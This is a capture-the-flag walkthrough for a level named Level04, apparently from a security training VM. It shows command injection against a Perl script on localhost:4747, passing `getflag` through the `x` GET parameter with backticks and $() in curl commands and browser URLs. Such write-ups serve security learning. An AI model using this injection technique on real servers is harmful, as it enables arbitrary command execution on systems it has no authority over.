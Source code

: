 # Level04 Exploitation

## Objective
Exploit the web server running on `localhost:4747` to execute the `getflag` command with `flag04` permissions.

## Steps

### Step 1: Identify the Perl Script
Navigate to the `/home` directory and locate the Perl script `level04.pl`:

```bash
cd /home
cat level04.pl
```

### Step 2: Understand the Script
Examine the Perl script (`level04.pl`) to understand its functionality. Note that it prints the parameter `x` of a GET request on port `4747`.

### Step 3: Exploit the Script
Use `curl` to exploit the script and execute the `getflag` command:

```bash
curl http://localhost:4747?x=`getflag`
```

Or use the alternative syntax:

```bash
curl http://localhost:4747?x=$(getflag)
```

These commands will execute `getflag` as the user `flag04` and display the result.

### Step 4: Verify the Flag
Open a web browser and enter either of the following URLs:

- [http://192.168.56.2:4747/?x=`getflag`](http://192.168.56.2:4747/?x=`getflag`)
- [http://192.168.56.2:4747/?x=$(getflag)](http://192.168.56.2:4747/?x=$(getflag))

You should see the flag displayed.

Congratulations! You've successfully exploited the web server to execute the `getflag` command with `flag04` permissions.0
